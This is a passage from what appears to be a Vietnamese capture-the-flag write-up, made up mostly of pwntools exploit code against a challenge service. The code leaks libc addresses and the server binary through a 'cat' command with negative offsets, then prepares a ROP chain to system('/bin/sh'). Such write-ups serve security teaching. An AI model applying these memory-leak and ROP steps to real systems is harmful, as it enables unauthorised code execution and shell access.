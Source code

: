 ```python
_IO_wfile_jumps = unpack(leak, word_size=8*6)

print("_IO_wfile_jumps @ " + hex(_IO_wfile_jumps))

libc.address = _IO_wfile_jumps - libc.sym["_IO_wfile_jumps"]
# canary_addr = libc.address-0x2898
sh = libc.address + bin_sh
print("libc @ " + hex(libc.address))
print("/bin/sh @ " + hex(sh))
print("system @ " + hex(libc.sym["system"]))

# ilen = canary_addr >> 8*3
# offset = ((ilen<<8*3) ^ canary_addr) 
pause()
io.sendlineafter(b"> ", b"cat " + file + b" -9728 4096")

sleep(2)
leak_binary = io.recv(4096)

md = capstone.Cs(capstone.CS_ARCH_X86, capstone.CS_MODE_64)
with open("bin", "wb") as f_bin:
    f_bin.write(leak_binary)

for i in md.disasm(leak_binary, 0x1000):
    print("0x%x:\t%s\t%s" %(i.address, i.mnemonic, i.op_str))
```

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/0392e061-ff02-49f9-8aa9-43c0eefc4f30)

Sau khi đọc qua, ta xác định là server không có canary, lúc này thì mạnh dạn ROP thôi

```py
from pwn import *
from pwn import u64, u32, p64, p32, unpack
import capstone

if args.REMOTE:
    io = remote("file_storage.pwnable.vn", 10000)
    libc = ELF("libc/libc-2.31.so", checksec=False)
    file = b"lorem"
    file_big = b"8k"
    bin_sh = 0x1b45bd
    pop_rdi = 0x23b6a
else:
    io = process("./a.out")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    file = b"a.txt"
    file_big = b"b.txt"
    bin_sh = 0x1d8678
    pop_rdi = 0x2a3e5

io.sendlineafter(b"> ", b"cat " + file_big + b" -4488 8")
leak = io.recvline()[0:6]
_IO_2_1_stderr_ = unpack(leak, word_size=8*6)

print("_IO_2_1_stderr_ @ " + hex(_IO_2_1_stderr_))

io.sendlineafter(b"> ", b"cat " + file_big + b" -4128 8")
leak = io.recvline()[0:6]
_IO_wfile_jumps = unpack(leak, word_size=8*6)

print("_IO_wfile_jumps @ " + hex(_IO_wfile_jumps))

libc.address = _IO_wfile_jumps - libc.sym["_IO_wfile_jumps"]
```